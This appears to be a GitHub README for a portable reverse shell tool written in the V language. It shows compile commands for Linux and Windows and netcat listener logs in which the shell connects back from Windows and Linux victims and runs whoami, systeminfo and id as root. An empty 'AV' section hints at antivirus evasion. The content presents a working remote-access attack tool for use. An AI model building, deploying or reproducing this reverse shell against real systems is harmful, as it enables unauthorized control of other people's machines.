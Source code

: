 
# vrs

portable v based reverse shell

https://vlang.io/

https://github.com/vlang/v#installing-v-from-source

**Compile**
```
root@kali:/opt/v# ./v vrs.v 
root@kali:/opt/v# file vrs
vrs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6aeb8728d17200150a78ea64d2db7c0accdddb2f, for GNU/Linux 3.2.0, not stripped
```

```
C:\Users\User\v>v.exe -os windows vrs.v
mingw not found, trying to build with msvc...

```

**Usage**

Windows
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.202: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.202] 50780
whoami
windev1910eval\user

systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362

```

Linux
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 37634
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

**AV**


